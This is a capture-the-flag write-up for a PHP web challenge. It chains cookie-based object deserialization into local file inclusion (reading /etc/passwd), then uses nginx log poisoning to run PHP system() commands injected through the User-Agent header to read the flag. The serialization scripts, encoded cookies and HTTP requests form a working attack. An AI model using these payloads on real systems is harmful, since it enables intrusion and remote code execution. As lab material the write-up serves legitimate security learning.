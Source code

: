 # Category: Web Challenges

The code provided is very simple.
When the cookie is passed it gets unserialized and a magic method is present in the class `PageModel`.
The `__destruct` method allows to use  php `include` directive to read a file.
We've a `LFI` via object deserialization.

In fact we can read files:


```php
<?php
class PageModel
{
    public $file = "/etc/passwd";
}


$obj = new PageModel;
echo base64_encode(serialize($obj));

?>
```

doing a simple request to `/` we'll let us to see output:


```
GET / HTTP/1.1
Host: localhost:1337
Upgrade-Insecure-Requests: 1
User-Agent: <?php system("ls -la /"); ?>
Cookie: PHPSESSID=Tzo5OiJQYWdlTW9kZWwiOjE6e3M6NDoiZmlsZSI7czoxMToiL2V0Yy9wYXNzd2QiO30=
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Connection: close
```

```
root:x:0:0:root:/root:/bin/ash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/mail:/sbin/nologin
news:x:9:13:news:/usr/lib/news:/sbin/nologin
uucp:x:10:14:uucp:/var/spool/uucppublic:/sbin/nologin
operator:x:11:0:operator:/root:/sbin/nologin
man:x:13:15:man:/usr/man:/sbin/nologin
postmaster:x:14:12:postmaster:/var/mail:/sbin/nologin
cron:x:16:16:cron:/var/spool/cron:/sbin/nologin
ftp:x:21:21::/var/lib/ftp:/sbin/nologin
sshd:x:22:22:sshd:/dev/null:/sbin/nologin
at:x:25:25:at:/var/spool/cron/atjobs:/sbin/nologin
squid:x:31:31:Squid:/var/cache/squid:/sbin/nologin
xfs:x:33:33:X Font Server:/etc/X11/fs:/sbin/nologin
games:x:35:35:games:/usr/games:/sbin/nologin
cyrus:x:85:12::/usr/cyrus:/sbin/nologin
vpopmail:x:89:89::/var/vpopmail:/sbin/nologin
ntp:x:123:123:NTP:/var/empty:/sbin/nologin
smmsp:x:209:209:smmsp:/var/spool/mqueue:/sbin/nologin
guest:x:405:100:guest:/dev/null:/sbin/nologin
nobody:x:65534:65534:nobody:/:/sbin/nologin
www:x:1000:1000:1000:/home/www:/bin/sh
nginx:x:100:101:nginx:/var/lib/nginx:/sbin/nologin
```

The problem is taht has shown in `entrypoint.sh`

```
# Generate random flag filename
mv /flag /flag_`cat /dev/urandom | tr -dc 'a-zA-Z0-9' | fold -w 5 | head -n 1`
```

flag file name is renamed appending 5 random characters to the flag.
So to read the flag which should known flag file name.
Also we can't use linux wildcards like `*` or `?` for autocompletion in the include function.

Looking at `nginx.conf` we can find an useful directive, in fact we can see that logs are saved under 
`/var/log/nginx/access.log`.

Let's serialize the payload 

```php
<?php
class PageModel
{
    public $file = "/var/log/nginx/access.log";
}


$obj = new PageModel;
echo base64_encode(serialize($obj));

?>
```

and send it back to the server


response

```http
HTTP/1.1 500 Internal Server Error
Server: nginx
Date: Sun, 07 Jan 2024 07:59:45 GMT
Content-Type: text/html; charset=UTF-8
Connection: close
X-Powered-By: PHP/7.4.26
Content-Length: 772

172.17.0.1 - 200 "GET /index.php HTTP/1.1" "-" "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36" 
172.17.0.1 - 200 "GET /index.php HTTP/1.1" "-" "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36" 
172.17.0.1 - 200 "GET / HTTP/1.1" "-" "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36" 
172.17.0.1 - 200 "GET / HTTP/1.1" "-" "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36" 
172.17.0.1 - 200 "GET / HTTP/1.1" "-" "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36" 
172.17.0.1 - 200 "GET / HTTP/1.1" "-" "
```

Searching on internet, I came across a technique called `Log Poisoning`. In fact, due to this flaw is possible to escalate a `LFI` to `RCE` by injecting with a php web shell headers. The header injected should be the same as one of the headers within the response of the log `LFI`.
In this case `User-Agent`. Before to proceed I want to underline that in the paylaod, `"` quotes won't work for some reason.

So the first thing to do is to request `/` with an user agent injected.

```
GET / HTTP/1.1
Host: localhost:1337
Upgrade-Insecure-Requests: 1
User-Agent: <?php system('whoami'); ?>
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Connection: close

```

and then read the log again

```
GET / HTTP/1.1
Host: localhost:1337
Upgrade-Insecure-Requests: 1
Cookie: PHPSESSID=Tzo5OiJQYWdlTW9kZWwiOjE6e3M6NDoiZmlsZSI7czoyNToiL3Zhci9sb2cvbmdpbngvYWNjZXNzLmxvZyI7fQ==
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Connection: close

```

```
HTTP/1.1 200 OK
Server: nginx
Date: Sun, 07 Jan 2024 08:49:26 GMT
Content-Type: text/html; charset=UTF-8
Connection: close
X-Powered-By: PHP/7.4.26
Content-Length: 89

172.17.0.1 - 200 "GET / HTTP/1.1" "-" "-" 
172.17.0.1 - 200 "GET / HTTP/1.1" "-" "www
" 
```

In the log we can observe `www`. We're www user and the whoami shell command worked.
Well, since for some reasons sending more then one payload at a time to the challenge let's the server crash with a `500 Internal Server Error` when requesting logs, I used bash wildcards to retrivie the flag without looking at its name first:

`<?php system('cat /flag_?????'); ?>`

I used `?` since I know the random character generated.
Injecting it in `User-Agent` while requesting a random resource (example `/`) and reading the log file back, will let us to get the flag.

We need to underline that `log poisoning` is possible only under `LFI` circumstances. This because reading the log file, triggers the execution of saved command. Without sending a read request for the file, the paylaod won't be executed.

